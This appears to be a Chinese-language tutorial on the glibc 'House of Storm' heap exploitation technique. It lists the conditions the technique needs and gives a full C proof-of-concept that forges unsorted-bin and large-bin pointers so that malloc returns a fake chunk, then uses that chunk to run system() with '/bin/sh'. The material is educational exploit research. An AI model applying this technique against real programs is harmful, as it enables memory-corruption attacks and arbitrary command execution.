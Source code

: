 ## House of storm

 漏洞利用条件:
1.需要攻击者在`largebin`和`unsorted_bin`中分别布置一个chunk 这两个chunk需要在归位之后处于同一个`largebin`的index中且`unsortedbin`中的chunk要比`largebin`中的大
2.需要`unsorted_bin`中的`bk指针`可控
3.需要`largebin`中的`bk指针和bk_nextsize`指针可控 

#### poc1(pie open)

pie开启情况

house of storm效果：控制target

```c
// compiled: gcc -g -fPIC -pie House_of_Strom.c -o House_of_Strom
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct {
    char padding[0x10]; // NULL padding
    char sh[0x10];
}global_container = {"","id"};

int main()
{
    char *unsorted_bin, *large_bin, *fake_chunk, *ptr;

    unsorted_bin = malloc(0x4f0-8); // size 0x4f0
    // 防止合并
    malloc(0x18);
    large_bin = malloc(0x4e0-8); // size 0x4e0
    // 防止合并
    malloc(0x18);

    // FIFO
    free(large_bin); // 先放小的chunk
    free(unsorted_bin);

    // large_bin 归位
    unsorted_bin = malloc(0x4f0-8);
    // unsorted_bin 归位
    free(unsorted_bin);
//==============line============
    fake_chunk = global_container.sh - 0x10;

    ((size_t *)unsorted_bin)[0] = 0; // unsorted_bin->fd
    ((size_t *)unsorted_bin)[1] = (size_t)fake_chunk; // unsorted_bin->bk

    ((size_t *)large_bin)[0] = 0; // large_bin->fd
    // 用于创建假块的“bk”，以避免从未排序的bin解链接时崩溃
    ((size_t *)large_bin)[1] = (size_t)fake_chunk + 8; // large_bin->fd
    ((size_t *)large_bin)[2] = 0; // large_bin->fd_nextsize
    // 用于使用错误对齐技巧创建假块的“大小”
    ((size_t *)large_bin)[3] = (size_t)fake_chunk - 0x18 - 5; // large_bin->bk_nextsize

    ptr = malloc(0x48);
    strncpy(ptr, "/bin/sh", 0x48 - 1);
    system(global_container.sh);

    return 0;
}
```
